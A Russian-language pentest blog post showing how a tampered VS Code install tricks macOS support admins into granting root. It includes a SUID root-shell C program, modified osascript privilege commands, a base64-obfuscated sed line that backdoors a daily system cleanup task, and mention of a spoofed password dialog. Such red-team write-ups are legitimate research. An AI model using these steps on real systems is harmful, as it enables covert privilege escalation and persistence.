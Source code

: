 ```yaml
---
layout: post
title: "Abuse VS Code Installation for LPE on macOS [Pentest Awards 2023]"
date: 2024-05-19 22:00:00 +0300
author: snovvcrash
tags: [pentest-awards, xakep-ru, macos, phishing, vs-code]
---
```


[//]: # (2023-03-10)

Когда тебе нужно заскамить сотрудников техподдержки на угон их кред и привилегий в macOS (естественно, действуя в рамках контракта о пентесте), можно смело предлагать завершить установку легитимного ПО, которое ты предварительно кастомизировал. Для примера разберем, как это сделать с любимым всеми Visual Studio Code.

<!--cut-->

<p align="right">
  <a href="https://award.awillix.ru/2023"><img src="https://img.shields.io/badge/Awillix-Pentest%20Awards-087fff?style=flat-square" alt="award-awillix-badge.svg" /></a>
  <a href="https://xakep.ru/2023/10/03/macos-lpe/"><img src="https://img.shields.io/badge/%5d%5b-%d0%a5%d0%b0%d0%ba%d0%b5%d1%80-red?style=flat-square" alt="xakep-badge.svg" /></a>
</p>

Этот способ мы применили по заказу одного **очень** крупного российского холдинга в ходе комплексной операции Red Team. Заказчик настоял на реализации следующего сценария: нас «устраивают» в компанию по согласованной легенде как внешних сотрудников на удаленке с выданным MacBook в качестве рабочего ноута.

Так как привилегии обычных сотрудников на маках в организации сильно урезаны, обращения к техподдержке по большей части состоят из писем вроде «админ, помоги мне установить программу». Из этого родилась идея воспользоваться этой особенностью рабочего процесса для повышения привилегий на маке до рута и заполучить служебную учетку из `/etc/krb5.keytab` для развития дальнейших атак на AD.

[![banner.png](/assets/images/vs-code-lpe-macos/banner.png)](/assets/images/vs-code-lpe-macos/banner.png)
{:.center-image}

* TOC
{:toc}

# Спуфинг диалогового окна аутентификации

В паблике есть [мануал](https://www.mdsec.co.uk/2021/01/macos-post-exploitation-shenanigans-with-vscode-extensions/) по написанию вредоносного расширения, которое умеет само стартовать при запуске VS Code и светить назойливым окном в глаза ненавистному админу, клянча его пароль.

![![password-dialog-spoofing.png](/assets/images/vs-code-lpe-macos/password-dialog-spoofing.png)](/assets/images/vs-code-lpe-macos/password-dialog-spoofing.png)
{:.center-image}

Достоинство этого метода в том, что можно получить креды привилегированной учетки в открытом виде. Расширение пишется в пользовательскую директорию `~/.vscode`, поэтому даже если у админа стоит чистый VS Code, запуск модульного окна сохранится.

Недостаток в том, что надо поймать **очень** уставшего админа, чтобы предприятие взлетело — диалоговое окно рисуется с помощью AppleScript, поэтому выглядит весьма халтурно и серьезно отличается от встроенных окон запроса расширенных привилегий. В связи с этим мы решили найти другой способ абьюзить VS Code.

# Модификация дистрибутива VS Code

Несмотря на то, что VS Code можно запускать с привилегиями пользователя, внутри есть дополнительные функции, которые требуют прав администратора. Например, [интеграция](https://code.visualstudio.com/docs/setup/mac#_launching-from-the-command-line) команды `code` в консоль (для этого вносятся изменения в системный `PATH`). В VS Code это делается командой из Command Palette (Command-Shift-P).

Хотя разработчики Code настоятельно [не рекомендуют](https://code.visualstudio.com/api/ux-guidelines/command-palette) изменять встроенные системные команды, хакеры любят жить опасно, поэтому способ есть.

![![command-palette-do-dont.png](/assets/images/vs-code-lpe-macos/command-palette-do-dont.png)](/assets/images/vs-code-lpe-macos/command-palette-do-dont.png)
{:.center-image}

![![command-palette-install-code.png](/assets/images/vs-code-lpe-macos/command-palette-install-code.png)](/assets/images/vs-code-lpe-macos/command-palette-install-code.png)
{:.center-image}

Грепнув каталог с VS Code по строке `command in PATH`, найдем отсылку к JS-функции `installCommandLine`:

```terminal?prompt=$
$ pwd 
/Applications/Visual Studio Code.app 

$ grep -r 'command in PATH' 
./Contents/Resources/app/out/vs/workbench/workbench.desktop.main.js:... class S extends I.Action2{constructor() {super({id:"workbench.action.installCommandLine",title:{value:(0,t.localize)(1,null,L.default.applicationName),original:`Install  '${L.default.applicationName}' command in PATH`} ... 
```

Далее, грепнув по `installCommandLine`, найдем само тело исполняемой команды.

```terminal?prompt=$
$ grep -r 'installShellCommand' 
./Contents/Resources/app/out/vs/code/electron-main/main.js:... async installShellCommand(T){const{source:U,target:H}=await this.n();try{const{symbolicLink:re}=await p.SymlinkSupport.stat(U);if(re&&!re.dangling){const Y=await(0,u.realpath) (U);if(H===Y)return}await p.Promises.unlink(U)}catch(re){if(re.code!=="ENOENT")throw re}try{await p.Promises.symlink(H,U)}catch(re) {if(re.code!=="EACCES"&&re.code!=="ENOENT")throw re;const{response:Y}=await this.showMessageBox(T,{type:"info",message:(0,y.localize) (0,null,this.h.nameShort),buttons:[(0,y.localize)(1,null),(0,y.localize)(2,null)]});if(Y===0)try{const ne=`osascript -e "do shell script \\"mkdir -p /usr/local/bin && ln -sf '${H}' '${U}'\\" with administrator privileges"`;await(0,O.promisify)(E.exec) (ne)}catch{throw new Error((0,y.localize)(3,null,U))}}} ...
```

Как видишь, ничто не мешает нам добавить собственное действие к команде `osascript`, но надо придумать, что именно мы можем сделать для сохранения и последующего восстановления привилегированного доступа.

```bash
osascript -e "do shell script \\"mkdir -p /usr/local/bin && ln -sf '${H}' '${U}'\\" with administrator privileges"
```

Курс Offensive Security «EXP-312: Advanced macOS Control Bypasses» предлагает изменить настройки PAM-модуля (а именно перечня обязательных критериев при аутентификации через sudo), чтобы имперсонировать root без пароля. Это делается с помощью изменения файла настроек `/etc/pam.d/sudo`.

![![exp-312-pam.png](/assets/images/vs-code-lpe-macos/exp-312-pam.png)](/assets/images/vs-code-lpe-macos/exp-312-pam.png)
{:.center-image}

К сожалению, этот способ не взлетел в macOS 13.2.1, поскольку теперь недостаточно быть рутом, чтобы менять содержимое чувствительных файлов на диске (все, что связано с кредами и аутентификацией). Для этого у процесса, который запрашивает такие изменения, должна быть привилегия Full Disk Access, которая навешивается только через GUI.

Мы решили пойти дедовским способом и создать SUID-бинарь (благо хоть это на маке работает):

```cpp
// gcc -o suidshell suidshell.c
// ./suidshell root

#include <stdlib.h>
#include <sys/types.h>
#include <pwd.h>
#include <unistd.h>

void change_to_user(const char *szUserName)
{
    struct passwd *pw;
    pw = getpwnam(szUserName);
    if (pw != NULL)
    {
        uid_t uid = pw->pw_uid;
        if (setuid(uid) == 0) system("/bin/bash -p");
    }
}

int main(int argc, char **argv)
{
    if (argc == 1) return 1;
    for (int i = 1; i < argc; i++) change_to_user(argv[i]);
    return 0;
}
```

Теперь можно добавить веселые команды к куску кода, нагрепанному выше, чтобы навесить нужного владельца и SUID-бит на шелл:

```bash
osascript -e "do shell script \\"chown root:wheel /tmp/suidshell && chmod u+s /tmp/suidshell && mkdir -p /usr/local/bin && ln -sf  '${H}' '${U}'\\" with administrator privileges" 
```

Еще немного покопавшись, мы открыли другую интересную возможность — вместо того, чтобы класть SUID-бинарь на диск непосредственно перед фишингом, можно добавить команды выше к задаче `/etc/periodic/daily/110.clean-tmps`, которая выполняется ежедневно:

```bash
sed -i '' -e 's/exit \$rc/chown root:wheel \/tmp\/\suidshell \&\& chmod u+s \/tmp\/\suidshell\nexit \$rc/' /etc/periodic/daily/110.clean-tmps

osascript -e "do shell script \\" echo 
c2VkIC1pICcnIC1lICdzL2V4aXQgXCRyYy9jaG93biByb290OndoZWVsIFwvdG1wXC9cc3VpZHNoZWxsIFwmXCYgY2htb2QgdStzIFwvdG1wXC9cc3VpZHNoZWxsXG5leGl0IF wkcmMvJyAvZXRjL3BlcmlvZGljL2RhaWx5LzExMC5jbGVhbi10bXBz | base64 -d | sh && mkdir -p /usr/local/bin && ln -sf '${H}' '${U}'\\" with administrator privileges"
```

Так можно дифференцировать ход LPE: сначала отредактировать запускаемую по расписанию задачу, а потом принести SUID-шелл и дожидаться его повышения.

![![before-elevation.png](/assets/images/vs-code-lpe-macos/before-elevation.png)](/assets/images/vs-code-lpe-macos/before-elevation.png)
{:.center-image}

До выполнения скам-команды
{:.quote}

![![elevation.png](/assets/images/vs-code-lpe-macos/elevation.png)](/assets/images/vs-code-lpe-macos/elevation.png)
{:.center-image}

Выполнение скам-команды
{:.quote}

![![after-elevation.png](/assets/images/vs-code-lpe-macos/after-elevation.png)](/assets/images/vs-code-lpe-macos/after-elevation.png)
{:.center-image}

После выполнения скам-команды
{:.quote}

В результате получаем нативное диалоговое окно для запроса повышения привилегий. Пожалуй, это перевешивает все недостатки. Какие? Увы, так нельзя утащить пароль админа в виде текста, к тому же нужно класть на диск дополнительный бинарь, что может вызвать срабатывание мониторинга, если он используется. И, конечно, если админ притащит свой экземпляр VS Code, жмем F to pay respects.

# Вывод

Прикинувшись беспомощным юзером, полностью находящимся во власти всемогущего админа (то есть сотрудника техподдержки), можно чужими руками «бесплатно» повысить себе локальные привилегии на макбуке и потенциально разжиться дополнительными доступами. GGWP!
